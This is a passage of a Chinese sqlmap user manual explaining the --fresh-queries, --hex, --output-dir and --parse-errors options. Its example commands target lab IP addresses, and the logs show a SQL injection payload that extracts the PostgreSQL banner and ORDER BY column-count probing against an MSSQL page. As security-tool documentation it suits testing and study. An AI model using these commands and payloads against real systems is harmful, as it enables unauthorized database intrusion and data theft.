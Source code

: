 #### 忽略在会话文件中存储的查询结果

	参数：--fresh-queries

忽略session文件保存的查询，重新查询。

#### 使用DBMS的hex函数

	参数：--hex

有时候字符编码的问题，可能导致数据丢失，可以使用hex函数来避免：

针对PostgreSQL例子：

	$ python sqlmap.py -u "http://192.168.48.130/sqlmap/pgsql/get_int.php?id=1" --banner --hex -v 3 --parse-errors
	
	[...]
	[xx:xx:14] [INFO] fetching banner
	[xx:xx:14] [PAYLOAD] 1 AND 5849=CAST((CHR(58)||CHR(118)||CHR(116)||CHR(106)||CHR(58))||(ENCODE(CONVERT_TO((COALESCE(CAST(VERSION() AS CHARACTER(10000)),(CHR(32)))),(CHR(85)||CHR(84)||CHR(70)||CHR(56))),(CHR(72)||CHR(69)||CHR(88))))::text||(CHR(58)||CHR(110)||CHR(120)||CHR(98)||CHR(58)) AS NUMERIC)
	[xx:xx:15] [INFO] parsed error message: 'pg_query() [<a href='function.pg-query'>function.pg-query</a>]: Query failed: ERROR:  invalid input syntax for type numeric: ":vtj:506f737467726553514c20382e332e39206f6e20693438362d70632d6c696e75782d676e752c20636f6d70696c656420627920474343206763632d342e332e7265616c202844656269616e2032e332e322d312e312920342e332e32:nxb:" in <b>/var/www/sqlmap/libs/pgsql.inc.php</b> on line <b>35</b>'
	[xx:xx:15] [INFO] retrieved: PostgreSQL 8.3.9 on i486-pc-linux-gnu, compiled by
	GCC gcc-4.3.real (Debian 4.3.2-1.1) 4.3.2
	[...]
#### 自定义输出的路径

	参数：--output-dir

sqlmap默认把session文件跟结果文件保存在output文件夹下，用此参数可自定义输出路径 例如：--output-dir=/tmp

#### 从响应中获取DBMS的错误信息

	参数：--parse-errors

有时目标没有关闭DBMS的报错，当数据库语句错误时，会输出错误语句，用词参数可以会显出错误信息。

	$ python sqlmap.py -u "http://192.168.21.129/sqlmap/mssql/iis/get_int.asp?id=1" --parse-errors
	[...]
	[11:12:17] [INFO] ORDER BY technique seems to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
	[11:12:17] [INFO] parsed error message: 'Microsoft OLE DB Provider for ODBC Drivers (0x80040E14)
	[Microsoft][ODBC SQL Server Driver][SQL Server]The ORDER BY position number 10 is out of range of the number of items in the select list.
	<b>/sqlmap/mssql/iis/get_int.asp, line 27</b>'
	[11:12:17] [INFO] parsed error message: 'Microsoft OLE DB Provider for ODBC Drivers (0x80040E14)
	[Microsoft][ODBC SQL Server Driver][SQL Server]The ORDER BY position number 6 is out of range of the number of items in the select list.
	<b>/sqlmap/mssql/iis/get_int.asp, line 27</b>'
	[11:12:17] [INFO] parsed error message: 'Microsoft OLE DB Provider for ODBC Drivers (0x80040E14)
	[Microsoft][ODBC SQL Server Driver][SQL Server]The ORDER BY position number 4 is out of range of the number of items in the select list.
	<b>/sqlmap/mssql/iis/get_int.asp, line 27</b>'
	[11:12:17] [INFO] target URL appears to have 3 columns in query
	[...]
